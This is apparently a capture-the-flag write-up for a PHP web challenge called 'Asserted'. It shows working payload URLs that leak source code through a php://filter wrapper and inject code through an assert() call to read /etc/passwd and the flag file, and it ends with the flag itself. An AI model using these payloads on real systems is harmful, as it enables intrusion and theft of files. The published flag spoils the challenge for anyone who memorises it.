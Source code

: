 # Asserted

## Trying things

After a while a noticed that the url was using an argument to change between pages:

```
http://challenge.nahamcon.com:32302/index.php?page=about
```

If i try something like:

```
http://challenge.nahamcon.com:32302/index.php?page=../
```

The page returns: `HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE`

## Digging

I wanted to check the php code of this `index.php` so i researched a bit and i used this:

```
http://challenge.nahamcon.com:32302/index.php?page=php://filter/convert.base64-encode/resource=index
```

To get a base64 encoded `index.php` file. After decoding we can take a look to this friend:

```
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");
  
} else {
  $file = "home.php";
}

include($file);

?>
```

Looks like that `assert` function can be abused. Lets try this simple payload:

```
http://challenge.nahamcon.com:30611/index.php?page='. die("HALLO") .'
```

The page printed `HALLO` to the response body so lets try LFI:

```
http://challenge.nahamcon.com:30611/index.php?page='. die(file_get_contents("/etc/passwd")) .'
```
And the server printed the hole file to us, cool. Lets find and get the flag then:

```
http://challenge.nahamcon.com:30611/index.php?page='. die(file_get_contents("/flag.txt")) .'
```

Flag: `flag{85a25711fa6e111ed54b86468a45b90c}`
